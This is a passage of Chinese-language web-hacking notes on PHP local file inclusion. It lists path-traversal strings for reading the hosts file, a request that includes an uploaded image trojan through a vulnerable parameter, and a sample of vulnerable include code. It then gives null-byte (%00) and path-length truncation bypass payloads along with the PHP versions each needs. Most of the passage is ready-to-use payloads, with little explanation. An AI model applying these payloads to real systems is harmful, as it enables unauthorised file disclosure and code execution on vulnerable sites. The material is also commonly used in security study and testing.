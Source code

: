 2. 相对路径读取本地host文件

   1. Windows

      ```apl
      ..\..\..\..\Windows\System32\drivers\etc\hosts
      ```

   2. Linux

      ```apl
      ..\..\..\etc\hosts
      ```

###### ②包含图片马

* 利用文件包含漏洞直接包含木马图片

```apl
/action.php?action=../muma.jpg
```

##### c. 绕过

* 代码形式(自带拼接后缀)

```apl
<?php
	$filename=$_GET['filename'];
	include $filename.'.php';
?>
```

###### ①%00截断

1. 满足条件

   > * magic_quotes_gpc = Off
   > * php版本 < 5.2.4

2. 形式

   ```apl
   /action.php?action=phpinfo.php%00
   ```

###### ②路径长度截断

1. 满足条件

   > * Windows下要长于**198字符**，超出部分会被丢弃
   > * **php < 5.3.4**
   > * 操作系统版本要是**低版本(例如Win7)**

2. 形式

   ```apl
   /action.php?action=phpinfo.php/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
   ```
